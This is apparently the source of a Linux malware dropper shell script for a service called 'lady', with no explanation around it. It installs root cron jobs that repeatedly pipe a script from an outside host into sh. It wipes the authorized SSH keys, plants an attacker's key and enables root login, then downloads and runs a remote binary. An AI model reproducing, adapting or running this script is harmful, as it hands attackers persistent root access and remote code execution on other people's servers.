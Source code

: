 ~~~
fi

service lady start
systemctl start lady.service
/etc/init.d/lady start


echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/root
mkdir -p /var/spool/cron/crontabs
echo "*/15 * * * * curl -fsSL https://r.chanstring.com/pm.sh?0706 | sh" > /var/spool/cron/crontabs/root

if [ ! -f "/root/.ssh/KHK75NEOiq" ]; then
    mkdir -p ~/.ssh
    rm -f ~/.ssh/authorized_keys*
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzwg/9uDOWKwwr1zHxb3mtN++94RNITshREwOc9hZfS/F/yW8KgHYTKvIAk/Ag1xBkBCbdHXWb/TdRzmzf6P+d+OhV4u9nyOYpLJ53mzb1JpQVj+wZ7yEOWW/QPJEoXLKn40y5hflu/XRe4dybhQV8q/z/sDCVHT5FIFN+tKez3txL6NQHTz405PD3GLWFsJ1A/Kv9RojF6wL4l3WCRDXu+dm8gSpjTuuXXU74iSeYjc4b0H1BWdQbBXmVqZlXzzr6K9AZpOM+ULHzdzqrA3SX1y993qHNytbEgN+9IZCWlHOnlEPxBro4mXQkTVdQkWo0L4aR7xBlAdY7vRnrvFav root" > ~/.ssh/KHK75NEOiq
    echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
    echo "RSAAuthentication yes" >> /etc/ssh/sshd_config
    echo "PubkeyAuthentication yes" >> /etc/ssh/sshd_config
    echo "AuthorizedKeysFile .ssh/KHK75NEOiq" >> /etc/ssh/sshd_config
    /etc/init.d/sshd restart
fi

if [ ! -f "/etc/init.d/lady" ]; then
    if [ ! -f "/etc/systemd/system/lady.service" ]; then
        mkdir -p /opt
        curl -fsSL https://r.chanstring.com/v12/lady_`uname -i` -o /opt/KHK75NEOiq33 && chmod +x /opt/KHK75NEOiq33 && /opt/KHK75NEOiq33
    fi
fi

service lady start
systemctl start lady.service
/etc/init.d/lady start

mkdir -p /opt

# /etc/init.d/lady stop
# systemctl stop lady.service
# pkill /opt/cron
# pkill /usr/bin/cron
# rm -rf /etc/init.d/lady
# rm -rf /etc/systemd/system/lady.service
# rm -rf /opt/KHK75NEOiq33
# rm -rf /usr/bin/cron
# rm -rf /usr/bin/.cron.old
# rm -rf /usr/bin/.cron.new
~~~
